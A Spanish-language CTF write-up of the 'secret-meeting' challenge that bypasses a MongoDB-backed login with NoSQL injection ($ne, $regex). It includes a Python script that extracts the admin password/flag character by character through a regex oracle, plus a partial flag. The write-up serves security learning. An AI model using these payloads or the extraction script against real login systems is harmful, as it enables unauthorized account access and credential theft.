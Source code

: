 # secret-meeting

Lo primero que hago es montar el reto en local, y echar un primer vistazo a los archivos. Hay dos contenedores interconectados, uno es la pagina web, y el otro es una base de datos en MongoDB (NoSQL). Veo que la pagina web esta montada en el archivo `server.js` donde se están introduciendo unos usuarios a la base de datos, y carga el HTML de la misma.Si interceptamos la peticion de login con BurpSuit, vemos la siguiente información.

![image.png](image/image_01.png)

Pienso que al ser MongoDB, tiene mas velocidad a la hora de hacer consultas, sin embargo no es tan seguro como MySQL, por lo que podremos intentar hacer alguna inyección de NoSQL. Algunos comandos que podemos usar son:

- `[$ne]` → not equal
- `[$where]` → donde
- `[$regex]` → equal
- `[eq]` → equal

No hay funciones que me pueda mostrar la contraseña del usuario administrador. Lo que si podemos ver es que si hacemos una petición para que el usuario sea el administrador y ponemos que la contraseña sea distinta de cualquier cosa nos podremos autenticar como administrador. Esta sería la querry que podemos hacer:

`username[$eq]=admin&password[$ne]=1`

![image.png](image/image_02.png)

Vemos que se nos a autenticado, aunque no conseguimos nada respecto a la flag.

Debemos intentar encontrar un comando que nos indique si la flag que vamos introduciendo es correcta. Otra manera de autenticarnos de manera exitosa es mediante el comando `[$regex]` de la siguiente manera:

`username=admin&password[$regex]=.*`

![Screenshot 2024-11-25 at 22.57.41.png](image/image_03.png)

Esta querry indica mediante el `.*` para indicar cualquier contraseña asociada al parametro `password`.

Sabiendo que la flag empieza por `URJC{` podemos introducir eso como parametro para `password[$regex]` seguido de `.*` para indicar que hay más caracteres. 

- querry: `username=admin&password[$regex]=URJC{.*`

Y el codigo de la respuesta es `200 OK`.

Se me ocurre hacer fuerza bruta letra por letra hasta conseguir que acepte un `}` y entonces sabré cual es la contraseña de administrador.

Podemos hacer un script sencillo con python que haga las peticiones por nosotros, y dependiendo de cual sea el codigo de la respuesta, guarde la letra empleada o la descarte.

```python
import requests
import string

url = "http://localhost:12103/login"  # Reemplaza con la URL real
password = "URJC{"
characters = "}{abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_"
#characters = list(string.ascii_letters) + list(string.digits) + list(string.punctuation) + list(string.whitespace)

while True:
    found = False
    for char in characters:
        test_password = f"^{password}{char}.*"
        data = {
            "username": "admin",
            "password[$regex]": test_password  # Ajuste para que use parámetros codificados
        }
        # Enviar datos como x-www-form-urlencoded
        response = requests.post(url, data=data)

        print(f"Probing with: {test_password}")
        print(f"Status code: {response.status_code}")

        if response.status_code == 200:  # Cambia esto según cómo responde tu servidor
            password += char
            print(f"[+] Password so far: {password}")
            found = True
            break

    if not found:  # Si no encontramos más caracter válidos, la contraseña está completa
        print(f"[!] Password completo: {password}")
        break
```

Tras ejecutarlo, obtenemos lo siguiente:

[Screen Recording 2024-11-25 at 23.14.38.gif](image/vid_01.gif)

Está claro que al hacerlo de manera local, no encontramos la flag real del reto. Modificando las lineas del script, en las cuales realiza la conexión a la web de login, ponemos la proporcionada por el CTFd, y tras un rato, nos devuelve la siguiente flag:

`URJC{4ut0m4t1z4l0_0_sufr3_l4s_c0ns3cu3nc14s`

Si nos fijamos en las flags de otros retos, vemos que todos sigue una misma estructura: `URJC{phrase_token}`.

El token, es un código único, el cual es el que nos falta en este reto, pues una vez tenemos la frase, vendría un guión bajo, seguido del token. Si con burbsuit intentamos hacer esta petición de login: `username[$eq]=admin&password[$regex]=URJC{4ut0m4t1z4l0_0_sufr3_l4s_c0ns3cu3nc14s_.*` 

La página web nos devuelve el código de estado `401 Unauthorized`.

El problema viene dado porque ya no puede continuar comprobando. En este punto, ninguna letra, ni minuscula ni ningun número da una petición `200 OK`.